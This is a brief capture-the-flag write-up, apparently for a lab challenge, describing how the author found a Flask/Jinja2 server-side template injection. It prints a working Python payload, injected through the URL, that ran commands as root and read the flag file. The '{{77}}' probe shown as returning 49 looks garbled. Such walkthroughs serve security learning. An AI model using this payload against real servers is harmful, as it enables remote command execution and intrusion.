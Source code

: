 #Templated
- first i open the website
![My Image](img/1.png.png)

- I tried to look at the source code by inspecting elements but there is nothing interesting after that i tried to take a look at the **HTTP** header and i find that the website uses [Werkzeug/1.0.1 Python/3.9.0]
![My Image](img/2.png.png)
- So after some google search i found 2 **vuln Werkzeug / Flask Debug** and  **Server-Side Template Injection** so i tied first to access **/console** but i get 404 but console was printed in the page so i tried to access **http://188.166.144.14:31547/{{77}}** and i get this page 
![My Image](img/2.png)
- so we can use **Server-Side Template Injection vuln** to execute python code as we have 49 printed in the web page
- so i found this python payload 
``` python
request.application.__globals__.__builtins__.__import__('os').popen('id').read()
```
- this script import os and execute the cmd id
- i go to **http://188.166.144.14:31547/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}** and i get as an output uid=0(root) gid=0(root) groups=0(root) so i tried to execute ls and then cat the flag.txt file
![My Image](img/Capture%20d'%C3%A9cran%202023-07-01%20022348.png)